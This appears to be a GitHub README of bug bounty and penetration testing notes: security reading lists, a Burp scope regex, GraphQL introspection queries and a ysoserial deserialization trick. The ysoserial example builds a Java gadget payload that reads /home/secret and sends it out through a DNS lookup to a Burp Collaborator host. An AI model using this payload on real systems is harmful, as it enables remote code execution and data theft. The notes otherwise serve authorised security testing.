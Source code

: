 # EasyG

EasyG started out as a script that I use to automate some information gathering tasks for PenTesting and Bug Hunting. Now it is more than that.

Here I gather all the resources about PenTesting and Bug Bounty Hunting that I find interesting: notes, payloads that I found useful and many links to blogs and articles that I want to read (because having a lot of bookmarks bothered me) and more.

**To Read list**
- https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application
- https://blog.yeswehack.com/yeswerhackers/abusing-s3-bucket-permissions/
- https://portswigger.net/web-security/ssrf
- https://portswigger.net/web-security/jwt
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/blogposts.md
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/media.md
- https://github.com/nahamsec/Resources-for-Beginner-Bug-Bounty-Hunters/blob/master/assets/mobile.md
- https://www.bugcrowd.com/hackers/bugcrowd-university/
- https://www.microsoft.com/en-us/msrc/bounty-example-report-submission?rtc=1

**Blog / Writeups / News**
- https://pentester.land/list-of-bug-bounty-writeups.html
- https://hackerone.com/hacktivity
- https://portswigger.net/research
- https://www.skeletonscribe.net
- https://cvetrends.com/

**Burp suite**

- To add a domain + subdomains in advanced scopes: `.*\.test\.com$`

**Ysoserial**

Because of `Runtime.exec()`, ysoserial doesn't work well with multiple commands. After some research, I found a way to run multiple sys commands anyway, by using `sh -c $@|sh . echo ` before the multiple commands that we need to run. Here's an example:

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sh -c $@|sh . echo host $(cat /home/secret).dctoqqar8fjkhoahnzjvxw9980ev2k.burpcollaborator.net' | gzip | base64
```

**GraphQL**

GraphQL Introspection query

```
{"query": "{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}"}
```

```
{query: __schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}# Write your query or mutation here
```

```
{"operationName":"IntrospectionQuery","variables":{},"query":"query IntrospectionQuery {\n  __schema {\n    queryType {\n      name\n    }\n    mutationType {\n      name\n    }\n    subscriptionType {\n      name\n    }\n    types {\n      ...FullType\n    }\n    directives {\n      name\n      description\n      locations\n      args {\n        ...InputValue\n      }\n    }\n  }\n}\n\nfragment FullType on __Type {\n  kind\n  name\n  description\n  fields(includeDeprecated: true) {\n    name\n    description\n    args {\n      ...InputValue\n    }\n    type {\n      ...TypeRef\n    }\n    isDeprecated\n    deprecationReason\n  }\n  inputFields {\n    ...InputValue\n  }\n  interfaces {\n    ...TypeRef\n  }\n  enumValues(includeDeprecated: true) {\n    name\n    description\n    isDeprecated\n    deprecationReason\n  }\n  possibleTypes {\n    ...TypeRef\n  }\n}\n\nfragment InputValue on __InputValue {\n  name\n  description\n  type {\n    ...TypeRef\n  }\n  defaultValue\n}\n\nfragment TypeRef on __Type {\n  kind\n  name\n  ofType {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n              ofType {\n                kind\n                name\n              }\n            }\n          }\n        }\n      }\n    }\n  }\n}\n"}
```
